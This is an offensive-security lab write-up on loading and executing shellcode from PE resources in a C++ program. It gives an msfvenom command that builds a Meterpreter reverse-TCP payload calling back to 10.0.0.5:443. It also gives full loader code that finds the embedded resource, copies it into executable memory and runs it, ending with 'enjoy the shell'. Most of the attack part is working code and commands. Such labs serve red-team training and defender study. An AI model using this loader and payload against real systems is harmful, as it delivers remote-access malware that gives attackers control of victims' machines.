



# Loading and Executing Shellcode From PE Resources

## Context

This lab shows one of the techniques how one could load and execute a non-staged shellcode from within a C program using PE resources using Visual Studio.

If you've ever tried executing an unstaged shellcode from a C/C++ program, you know that you will be having a hard time doing it if you are defining a huge char array which looks like this \(just a snippet\):


Below is a quick walkthrough that was inspired by [@\_RastaMouse](https://twitter.com/_RastaMouse) tweet:


## Embedding The Shellcode as a Resource

Let's generate a non-staged meterpreter payload in binary format first. This will be our resource that we want to embed into our C++ program:

```csharp
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=443 > meterpreter.bin
```

Right click on the `Resource Files` in Solution Explorer and select `Add > Resource`


Click `Import` and select the resource you want to include. In my case - it's the `meterpreter.bin`:


Give resource a resource type name - anything works, but you need to remember it when calling `FindResource` API call \(shown later in the code\):


At this point, you can see in your resource browser that the `meterpreter.bin` is now included in your program's resources:





If you compile your program now and inspect it with resource hacker, you can now see the resource you've  just embedded:


## Code

We can then leverage a small set of self-explanatory Windows APIs to find the embedded resource, load it into memory and execute it like so:

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
	// IDR_METERPRETER_BIN1 - is the resource ID - which contains ths shellcode
	// METERPRETER_BIN is the resource type name we chose earlier when embedding the meterpreter.bin
	HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_METERPRETER_BIN1), L"METERPRETER_BIN");
	DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
	HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);
	
	void *exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcodeResouceData, shellcodeSize);
	((void(*)())exec)();

	return  0;
}
```

Compile and run the binary and enjoy the shell:





